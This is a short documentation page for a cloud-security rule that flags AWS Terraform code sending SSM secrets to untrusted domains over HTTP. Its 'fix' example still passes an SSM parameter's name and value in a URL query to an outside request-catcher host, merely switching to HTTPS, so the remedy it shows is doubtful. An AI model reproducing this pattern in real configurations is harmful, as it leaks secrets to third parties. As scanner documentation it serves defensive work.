 == AWS Terraform sends SSM secrets to untrusted domains over HTTP


=== Rule Details

[cols="1,2"]
|===
|Cortex AppSec Rule ID |APPSEC2_AWS_36
|Category |Public Exposure - Encryption and Protocols
|Provider |AWS
|Severity |LOW
|Framework |Terraform
|Mapped CSPM/KSPM Rule |None
|===


=== Impact
Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== Fix - Buildtime


*Terraform* 




[source,go]
----
resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}

data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}
----
